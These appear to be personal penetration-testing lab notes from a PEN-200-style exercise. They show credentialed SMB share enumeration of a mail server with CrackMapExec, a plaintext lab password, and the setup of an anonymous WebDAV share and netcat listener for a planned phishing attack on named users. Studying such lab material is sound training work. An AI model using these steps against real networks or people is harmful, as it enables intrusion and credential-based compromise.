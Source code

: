 Two options forward
1. Enumerate SMB on MAILSRV1 and check for sensitive info
2. Prepare phishing email with malicious attachment and send to _daniela_ and _marcus_

Starting with option 1. 

Listing SMB shares on MAILSRV1 with CrackMapExec
```hlt:1,
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares  
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.50.242  445    MAILSRV1         [+] Enumerated shares
SMB         192.168.50.242  445    MAILSRV1         Share           Permissions     Remark
SMB         192.168.50.242  445    MAILSRV1         -----           -----------     ------
SMB         192.168.50.242  445    MAILSRV1         ADMIN$                          Remote Admin
SMB         192.168.50.242  445    MAILSRV1         C$                              Default share
SMB         192.168.50.242  445    MAILSRV1         IPC$            READ            Remote IPC
```
- Only default shares and we have no actionable permissions

Last option, prepare phishing email...

### Phishing for Access
Set-Up:
- WebDAV server
- Python3 web server
- Netcat listener 
- Prep Windows library and shortcut files

#### Setting up WebDAV share on Kali with wsgidav
Create WebDAV root directory 
```
kali@kali:~$ mkdir /home/kali/beyond/webdav
```

SetupWebDAV share with #wsgiDAV 

My kali: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/cadet/PEN-200/beyond/webdav`
```hlt:1,15
kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
Running without configuration file.
04:47:04.860 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
04:47:04.861 - INFO    : WsgiDAV/4.0.2 Python/3.10.7 Linux-5.18.0-kali7-amd64-x86_64-with-glibc2.34
04:47:04.861 - INFO    : Lock manager:      LockManager(LockStorageDict)
04:47:04.861 - INFO    : Property manager:  None
04:47:04.861 - INFO    : Domain controller: SimpleDomainController()
04:47:04.861 - INFO    : Registered DAV providers by route:
04:47:04.861 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/kali/.local/lib/python3.10/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
04:47:04.861 - INFO    :   - '/': FilesystemProvider for path '/home/kali/beyond/webdav' (Read-Write) (anonymous)
04:47:04.861 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
04:47:04.861 - WARNING : Share '/' will allow anonymous write access.
04:47:04.861 - WARNING : Share '/:dir_browser' will allow anonymous read access.
04:47:05.149 - INFO    : Running WsgiDAV/4.0.2 Cheroot/8.6.0 Python 3.10.7
04:47:05.149 - INFO    : Serving on http://0.0.0.0:80 ...
```
- WebDAV share served on port 80 with anonymous access settings
